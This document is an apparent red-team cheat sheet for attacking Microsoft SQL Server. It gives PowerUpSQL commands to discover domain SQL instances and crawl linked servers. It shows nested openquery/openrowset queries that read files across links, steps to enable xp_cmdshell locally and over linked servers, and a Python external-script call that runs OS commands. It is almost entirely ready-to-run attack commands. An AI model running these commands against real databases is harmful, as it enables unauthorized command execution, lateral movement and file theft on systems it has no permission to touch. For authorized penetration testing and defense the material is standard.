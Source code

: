 # MSSQL Servers

### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

Find Servers:

```text
Get-SQLInstanceDomain
```

Find Servers the current user can connect to as:

```text
PowerShell Get-SQLInstanceDomain | Get-SQLConnectionTest
```

Execute query or command:

```text
Get-SQLQuery -Instance '<server>.<domain>,1433' -Query 'select @@servername'
Invoke-SQLOSCmd -Instance '<server>.<domain>,1433' -Command 'dir C:\' -RawResults
```

Crawl Database Links:

```text
Get-SQLServerLinkCrawl -Instance '<server>.<domain>,1433'
```

Read file through linked servers:

```text
select * from openquery("<server>.<domain>", 'select * from openquery("<server>.<domain>", ''select * from openrowset(bulk N''''C:\x.txt'''', single_nclob) as contents'')')
```

### xp\_cmdshell

#### Enable locally

```text
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE
```

#### Enable through link \(requires RPC Out enabled\)

```text
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [<server>]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [<server>]
SELECT * FROM OPENQUERY("<server>", 'select * from sys.configurations where name = ''xp_cmdshell''')
```

#### Running xp\_cmdshell through serverlink

```text
SELECT * FROM OPENQUERY("<server>", 'select @@servername; exec xp_cmdshell ''dir c:''')
```

This will however not give any output \(but still execute\).

### External python script

```text
EXEC sp_configure 'external scripts enabled', 1
RECONFIGURE
EXEC sp_execute_external_script
@language =N'Python',
@script= N'import os; os.system("whoami")'
go
```

### SQLShell on Linux

```bash
docker pull mcr.microsoft.com/mssql-tools
docker run -it mcr.microsoft.com/mssql-tools
```

